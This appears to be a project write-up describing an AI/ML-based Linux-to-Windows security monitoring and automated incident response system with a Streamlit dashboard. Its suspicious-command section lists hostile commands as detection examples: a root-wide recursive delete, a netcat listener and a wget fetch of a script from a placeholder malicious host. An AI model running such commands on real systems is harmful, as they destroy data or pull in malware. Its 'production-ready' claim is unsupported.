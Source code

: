 AI-Driven Cybersecurity Monitoring & Incident Response System (IRM) - Detailed Technical Breakdown

1. System Overview
AI/ML-based IRM (Incident Response Management) system is a real-time cybersecurity monitoring framework that collects, analyzes, and responds to threats across a Linux (Ubuntu) to Windows infrastructure. It replaces traditional rule-based SIEM (Security Information and Event Management) with behavioral anomaly detection, threat intelligence correlation, and automated response mechanisms.

Key Innovations:
✅ AI/ML-Powered Anomaly Detection – Uses Isolation Forest & One-Class SVM to detect deviations from normal behavior
✅ False Positive Reduction – Unlike signature-based IDS, it analyzes process behavior, network patterns, and command execution
✅ Threat Intelligence Integration – Correlates internal events with AbuseIPDB, VirusTotal, and OSINT feeds
✅ Automated Incident Response – Kills malicious processes, generates alerts, and provides forensic reports
✅ Interactive Dashboard (Streamlit) – Visualizes security data for real-time decision-making

2. System Architecture
2.1. Infrastructure Components
Component	Role	Technologies Used
Ubuntu VM (Client)	Data Collection	Python, psutil, systemd
Windows VM (Server)	Data Processing & AI Analysis	Python, SQLite, Scikit-learn
Network Communication	Secure Data Transfer	TCP Sockets (Ports 5050 & 5400)
Dashboard	Visualization & Alerts	Streamlit, Plotly, Pandas

2.2. Data Flow
Ubuntu VM (Client-Side)

Collects process metrics (CPU, memory, commands)

Monitors network connections (TCP flags, ports, IPs)

Logs suspicious commands (e.g., rm -rf, chmod 777)

Tracks cron jobs (malicious persistence checks)

Sends data to Windows VM via TCP sockets

Windows VM (Server-Side)

Receives logs via Python socket server

Stores data in SQLite database (process_monitoring.db)

Runs AI/ML models (Isolation Forest, SVM) for anomaly detection

Generates real-time alerts & automated responses

Streamlit Dashboard

Displays process behavior, network threats, and incident reports

Allows manual process termination & threat intelligence lookups

Generates PDF/HTML reports for forensic analysis

3. Key Features & Implementation Details
3.1. Real-Time Process Monitoring
Data Collected:

PID, CPU%, MEM%, User, Command, Runtime

Parent-Child Process Relationships (Detects process injection)

Anomaly Detection:

Trains Isolation Forest on normal process behavior

Flags deviations (e.g., unexpected CPU spikes, hidden processes)

Automated Response:

Kills processes exceeding CPU/MEM thresholds

Whitelists critical system processes

3.2. Network Traffic Analysis
Captures:

Source/Destination IPs & Ports

TCP Flags (SYN, ACK, RST) to detect scans/DDoS

GeoIP Lookup (Identifies suspicious countries)

Threat Detection:

Port Scanning Detection (Multiple SYN requests)

C2 (Command & Control) Beaconing (Regular outbound connections)

Data Exfiltration (Unusual large data transfers)

3.3. Suspicious Command Detection
High-Risk Commands Flagged:

rm -rf / (Forced deletion)

chmod 777 (Permission escalation)

nc -lvp 4444 (Reverse shell)

wget http://malicious.com/script.sh (Malware download)

Scoring System:

0-100 Risk Score (Commands above 70 trigger alerts)

3.4. Cron Job Monitoring
Detects:

Unauthorized cron jobs (Persistence mechanisms)

Malicious scripts (e.g., cryptocurrency miners)

Visualization:

Timeline of cron executions

User-based filtering (Find jobs by root vs. normal users)

3.5. Threat Intelligence Integration
IP Reputation Checks:

AbuseIPDB (Reports malicious IPs)

VirusTotal (Checks for malware associations)

GreyNoise (Identifies scanners/bots)

Dashboard Features:

IP Threat Score (0-100)

Geolocation Map (Visualizes attack origins)

3.6. Automated Incident Response
Process Termination:

kill -9 [PID] for high-risk processes

Verification (Checks if process was successfully killed)

Alerting:

Email reports (PDF/HTML)

Streamlit dashboard alerts (Color-coded by severity)

4. AI/ML Implementation
4.1. Anomaly Detection Models
Model	Use Case	Training Data
Isolation Forest	Detects unusual process behavior	CPU%, MEM%, Runtime
One-Class SVM	Identifies rare command executions	Command frequency, user patterns
Clustering (K-Means)	Groups similar network events	Source IP, destination port
4.2. Feature Engineering
Process Features:

CPU/MEM ratios

Command entropy (Randomness = possible malware)

Parent-child process anomalies

Network Features:

SYN/ACK ratio (Port scan detection)

Geolocation risk score

Time-Based Features:

Hourly process execution patterns

Weekend vs. weekday activity

5. Streamlit Dashboard Features
5.1. Real-Time Visualizations
Process Monitoring:

CPU/MEM trends (Line charts)

Anomaly score distribution (Histograms)

Network Analysis:

Top source/destination IPs (Bar charts)

TCP flag breakdown (Pie charts)

Threat Intel:

IP reputation lookup (Interactive tables)

5.2. Interactive Controls
Time Range Selector (1h to 72h)

Detection Sensitivity Slider (1-10)

Manual Process Killer (Terminate by PID)

Report Generator (PDF/HTML export)

6. Future Enhancements
🔹 Integrate with SIEM (Splunk, ELK Stack)
🔹 Deploy on cloud (AWS/GCP) for scalability
🔹 Add YARA rules for malware detection
🔹 Implement MITRE ATT&CK mapping

Conclusion
Your AI-driven IRM system successfully replaces traditional rule-based monitoring with behavioral anomaly detection, automated response, and threat intelligence. It provides:
✔ Lower false positives than signature-based tools
✔ Real-time attack detection (Process hijacking, C2, data exfiltration)
✔ Automated incident response (Process killing, alerting)
✔ Forensic-ready reports (PDF/HTML + email alerts)

This framework is production-ready and can be extended for enterprise SOC (Security Operations Center) deployment. 🚀
